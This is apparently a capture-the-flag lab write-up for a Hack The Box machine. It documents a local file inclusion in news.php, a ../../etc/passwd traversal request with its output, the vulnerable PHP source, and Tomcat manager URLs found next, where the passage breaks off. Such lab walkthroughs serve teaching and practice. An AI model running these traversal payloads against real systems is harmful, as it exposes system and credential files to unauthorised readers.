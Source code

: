 		 We have recently upgraded several services. Our servers are now more secure than ever. [Read our statement on recovering from the data breach](http://megahosting.htb/news.php?file=statement)
    * and navbar's `NEWS` tab also redirect to same link
	  
		  http://megahosting.htb/news.php?file=statement
	
* from that link, it seems `statement`is a filename passed as input to the parameter `file`of the page `news.php`.
* **LFI** test on the `news.php`
* try to view `/etc/passd` to test `LFI`

* **URL: **`http://megahosting.htb/news.php?file=../../../../etc/passwd`
	returns the `/etc/passwd` file
	
	  root:x:0:0:root:/root:/bin/bash
	  ...
	  ash:x:1000:1000:clive:/home/ash:/bin/bash
	  
	this verifies the **LFI vulnerability**

### Local File Inclusion (LFI)

* first i tried to check the `news.php` source code to understand whats is going on behind this `file` parameter

	`megahosting.htb/news.php?file=../news.php`

	  <?php
	  $file = $_GET['file'];
	  $fh = fopen("files/$file","r");
	  while ($line = fgets($fh)) {
	    echo($line);
	  }
	  fclose($fh);
	  ?>
    
    * there is a simple `file_get_contents` Filesystem Functions of PHP
    * reading php [file_get_contents doc](https://www.php.net/manual/en/function.file-get-contents.php)
        * file_get_contents — Reads entire file into a string
    * that means i can access any file that accessible from server using `LFI` but can not execute any remote code or `RFI`

* spending some time on `LFI` but don't file any interesting information except `/etc/passwd`

## Tomcat

* get default page on `http://10.10.10.194:8080/`
* from default page found some information
    * server is running `tomcat9`
    * file to Tomcat managing instance

		  http://10.10.10.194:8080/manager/html
		  http://10.10.10.194:8080/host-manager/html
		  
### manager
